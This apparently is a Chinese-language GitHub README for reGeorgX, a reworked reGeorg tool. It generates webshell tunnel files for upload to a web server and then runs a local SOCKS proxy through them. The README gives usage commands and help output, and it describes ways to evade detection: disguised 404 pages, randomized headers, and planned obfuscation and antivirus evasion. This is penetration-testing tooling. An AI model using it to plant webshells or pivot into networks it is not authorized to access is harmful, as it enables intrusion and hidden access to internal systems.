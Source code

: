 reGeorgX
=========

**reGeorgX** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

* 提高 tunnel 连接安全性
* 提高可用性，避免特征检测
* 提高传输内容保密性
* 解决 reGeorg 现存在的问题，修复部分小BUG



## Features

* 传输内容经过变形base64加密，伪装成base64编码
* GET 请求响应可定制化 (如伪装的404页面)
* HTTP Headers 的指令随机生成，避免特征检测
* HTTP Headers 可定制化
* 兼容python2 / python3



Version
----

1.0.0



Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests




Basic Usage
--------------

* **Step 1.**
设置密码生成 tunnel.(aspx|ashx|jsp|php) 并上传到WEB服务器
```ruby
$ python reGeorgX.py generate -k password

    [+] Create reGeorgX server files:
       => reGeorgX_server/tunnel.nosocket.php
       => reGeorgX_server/tunnel.js
       => reGeorgX_server/tunnel.php
       => reGeorgX_server/tunnel.ashx
       => reGeorgX_server/tunnel.aspx
       => reGeorgX_server/tunnel.tomcat.5.jsp
       => reGeorgX_server/tunnel.jsp

```

* **Step 2.**
使用 reGeorgX.py 连接WEB服务器，在本地建立 socks 代理
```ruby
$ python3 reGeorgX.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting socks server [127.0.0.1:1080], tunnel at [http://k/tunnel.php]
+------------------------------------------------------------------------+
```

   注意，如果你的工具，如NMap不支持socks代理，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 




Advanced Usage
--------------

1. 支持生成服务端，默认 GET 请求响应指定的页面内容 (如伪装的404页面)
```ruby
$ python reGeorgX.py generate -k <you_password> --file 404.html
$ pytohn reGeorgX.py -k <you_password> -u <server_url> --skip
```

2. 如服务端WEB，需要设置代理才能访问
```ruby
$ pytohn reGeorgX.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. 如需Authorization认证，或者定制的Header或Cookie
```ruby
$ pytohn reGeorgX.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value"
```

* 更多关于性能和稳定性的参数设置参考 -h 帮助信息
```ruby
# 生成服务端脚本
$ python reGeorgX.py generate -h
    usage: reGeorgX.py [-h] -k KEY [-o DIR] [-f FILE] [--read-buff Bytes]

    Generate reGeorgX webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      --read-buff Bytes     Remote read buffer.(default: 513)

# 连接服务端
$ python reGeorgX.py -h
    usage: reGeorgX.py [-h] -u URI -k KEY [-l IP] [-p PORT] [-s] [-H LINE] [-c LINE]
                     [-x LINE] [--read-buff Bytes] [--read-interval MS]
                     [--max-threads N] [-v]

    Socks server for reGeorgX HTTP(s) tunneller

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address.(default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port.(default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom cookies to server
      -x LINE, --proxy LINE
                            proto://host[:port] Use proxy on given port
      --read-buff Bytes     Local read buffer, max data to be sent per
                            POST.(default: 1024)
      --read-interval MS    Read data interval in milliseconds.(default: 100)
      --max-threads N       Proxy max threads.(default: 1000)
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```



## TODO

 * 解决 tennel.js 无法持续 TCP 连接问题

 * HTTP body 隐写

 * 传输 Target 隐写

 * 混淆/免杀/压缩 server 端

 * Single session mode ([@imbeee](https://www.imbeee.com/2016/01/06/reGeorgSocksProxy-with-single-session-mode/))

   指定Cookie：
   
   ```python
       def cookiesFilter(self,cookie):
           newcookies = []
           if cookie:
               for x in cookie.split(','):
                   if ';' in x:
                       match = re.findall('((.+?)=(.+?));(\sdomain=(.+);)?',x.strip())
                       if match:
                           if match[0][4] == self.httpHost or match[0][4] == '':
                               self.cookieDic[match[0][1]] = match[0][2]
                   else:
                       self.cookieDic[x.split('=')[0]] = x.split('=')[1]
           for k in self.cookieDic.keys():
               newcookies.append(k + '=' + self.cookieDic[k])
           return '; '.join(newcookies)
   
       def reqRand(self):
           return ''.join(random.sample('zyxwvutsrqponmlkjihgfedcba',10))
   ```

- Custom headers.

- Optional buffer size, the transfer speed many times faster.

- Optional url check.

- Proxy headers payloads can be selected between URL parameters and Request headers.

  [https://github.com/gorgiaxx/reGeorg](https://github.com/gorgiaxx/reGeorg)

## License

GPL 3.0

